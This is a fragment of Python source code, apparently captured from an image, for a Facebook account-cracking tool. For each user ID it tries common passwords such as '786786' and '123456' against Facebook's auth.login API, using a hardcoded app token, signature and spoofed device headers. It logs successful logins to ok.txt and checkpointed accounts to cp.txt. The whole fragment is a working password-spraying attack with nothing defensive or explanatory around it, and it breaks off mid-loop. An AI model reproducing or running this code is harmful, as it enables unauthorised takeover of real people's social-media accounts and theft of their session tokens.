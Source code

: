 									pass4 = "786786"

									api = 'https://b-api.facebook.com/method/auth.login'

									params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass4, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

									headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

									data = requests.get(api, params=params, headers=headers_)

									if "access_token" in data.text and "EAAA" in data.text:

										print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass4+"\033[0;97m")

										ok = open("ok.txt", "a")

										ok.write(uid+"|"+pass4+"\n")

										ok.close()

										oks.append(uid+pass4)

									else:

										if "www.facebook.com" in data.json()['error_msg']:

											print(" \033[1;33m[loferjanan-CP] "+uid+" | "+pass4+"\033[0;97m")

											cp = open("cp.txt", "a")

											cp.write(uid+"|"+pass4+"\n")

											cp.close()

											cps.append(uid+pass4)

										else:

											pass5 = "123456"

											api = 'https://b-api.facebook.com/method/auth.login'

											params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass5, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

											headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

											data = requests.get(api, params=params, headers=headers_)

											if "access_token" in data.text and "EAAA" in data.text:

												print(" \033[1;32m[loferjanan-OK] "+uid+" | "+pass5+"\033[0;97m")

												ok = open("ok.txt", "a")
